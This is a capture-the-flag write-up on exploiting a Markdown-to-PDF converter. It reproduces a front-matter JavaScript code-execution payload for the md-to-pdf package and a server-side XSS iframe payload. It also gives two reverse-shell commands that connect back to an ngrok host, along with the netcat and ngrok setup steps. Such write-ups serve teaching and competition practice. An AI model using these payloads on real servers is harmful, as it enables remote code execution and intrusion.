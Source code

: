 ```yaml
---
title: Mythic PDF Forge
date: 2023-12-10T13:37:49+02:00
description: Writeup for Mythic PDF Forge [OddessyCTF]
author: 1byteBoy
tags:
  - Web
draft: false
---
```


This challenge gave us a web link to a website that converts Markdown formats to PDF format. 

All we have to do here is to write the marks down text or any text and then press generate. We can simply test this by doing the following 

Form Box

```
# Hello World
*This is a test*
```

Then press **`Generate`** button

we see that it opens a PDF page, where it converts or renders the markdown. OK so how do we exploit it !?

First thing i did is to google search *Markdown to PDF vulnerability and exploit*.

One of the page was https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

which talks about a possible `Remote Code Execution` in <u>md-to-pdf</u> package for versions <5.0.0, the thing is we don't know the version that is used here, until we check the inspect element page in PDF page, which shows

`PDF 6a3105f7f1140b692f023a47278f6ba1 [1.4 Skia/PDF m115 / Chromium] (PDF.js: 2.15.305)`

still not sure though skill issue =) 

but anyways let's try one of the payload from the snyk page that it suggests


```js
---js
((require("child_process")).execSync("id > /tmp/RCE.txt && cat /tmp/RCE.txt"))
---RCE';
```

it doesn't show anything nor does any other command, maybe it's it executing in the server-side only 

so since we are doing XSS and if it's executing in the server side, so i looked up for some Server Side XSS related to PDF and found some documentation on hack-tricks

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

and yes most of the payload from there was working. Even the following payload worked and showed something about a resume 

```js
<script>
document.write('<iframe src="'+window.location.href+'"></iframe>')
</script>
```

unfortunately only after trying different thing for a minute it wasn't working anymore, and showing us an API error from the backend.

I tried other things but nothing was helping out.. I tried reading different bug bounty writeups, GitHub issues there it seems it was talking about the previous payload and a possible RCE.

I found a YouTube video of John Hammond https://www.youtube.com/watch?v=QVaf4DMYPFc

Where he explains and tried to get a RCE the process is as follows

- set up a `netcat` listener on port `9999`
- then forward that port to the internet using `ngrok` : `ngrok tcp 9999`
- create a reverse shell using https://www.revshells.com/
	- use ip as `0.tcp.in.ngrok.io`
	- and port that is after it `:<port>` 
	- paste those in the ip&port section and we have a reverse shell code

Now let's create the payload 

```js
---js
((require("child_process")).execSync("sh -i >& /dev/tcp/0.tcp.in.ngrok.io/<forwarded_ip> 0>&1"))
---RCE
```

the only thing here is it wan't working, i was tired and sleepy so i left but the next day my teammate `@Soham5007v` found out the issue or problem. The thing is we have to use a different kind of reverse shell.

In the revsheels.com we can see a section as `nc mkfifo` that's what we have to use, why neither of us know, he just tried one after another.

anyways so now the payload would look something like 

```js
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 0.tcp.in.ngrok.io <forwarded_ip> >/tmp/f"))
---RCE
```

and whalla we get the shell, now we can cat the file named `flag.txt` and read the flag

Flag : **`flag{un1esh_t4e_f0rge_666f726765}`**




